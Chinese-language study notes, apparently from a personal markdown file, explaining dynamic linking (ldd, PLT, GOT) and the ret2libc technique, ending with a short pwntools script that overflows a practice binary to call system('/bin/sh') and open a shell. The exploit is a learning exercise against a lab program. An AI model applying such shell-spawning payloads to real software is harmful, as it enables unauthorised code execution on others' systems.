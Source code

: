   

## 动态链接过程

- ldd file：查看程序用到的所有动态连接库

### PLT（Procedure Linkage Table）

1. **作用**：
   - PLT是程序链接表，用于支持动态链接库中的函数调用。
   - 它允许可执行文件或共享库在第一次使用某个符号时，将其解析工作推迟到运行时，而不是编译或链接时。
2. **工作原理**：
   - 当程序第一次调用一个外部函数（例如动态链接库中的函数）时，调用会跳转到PLT表中的对应条目。
   - PLT条目会执行一些代码，这段代码会检查GOT中的相关条目是否已经填充了该函数的地址。
     - 如果没有，PLT条目会调用动态链接器（动态加载器），动态链接器会解析符号并填充GOT中的相关条目。
     - 如果已经填充了，PLT会直接跳转到实际的函数地址。
   - 这样，后续对该函数的调用就可以直接通过GOT获取地址，避免了重复的符号解析。

### GOT（Global Offset Table）

1. **作用**：
   - GOT是全局偏移表，用于保存全局变量和函数的地址**。
   - 在动态链接过程中，GOT用于存储从动态链接库中解析出来的符号地址。
2. **工作原理**：
   - 可执行文件或共享库中的每一次对外部变量或函数的引用都会被指向GOT中的一个条目。
   - 当程序第一次运行时，GOT中的这些条目可能还没有被初始化。
   - 在第一次函数调用时，PLT会触发符号解析，动态链接器会找到实际的地址并写入GOT条目中。
   - 后续的调用会直接使用GOT中记录的地址，避免了重新解析符号。

![image-20240623162557094](C:/Users/HP/AppData/Roaming/Typora/typora-user-images/image-20240623162557094.png)

## ret2libc

- 篡改帧上自返回地址开始的一段区域为一系列gadget的地址，最终调用libc中的函数获取shell。

### ret2libc1

- 通过控制程序执行流执行到plt中的system函数，并在system函数上方两个字节处传递bin/sh

  ```python
  #!/usr/bin/env python
  from pwn import *
  
  sh = process('./ret2libc1')
  
  binsh_addr = 0x8048720
  system_plt = 0x08048460
  payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
  sh.sendline(payload)
  
  sh.interactive()
  ```
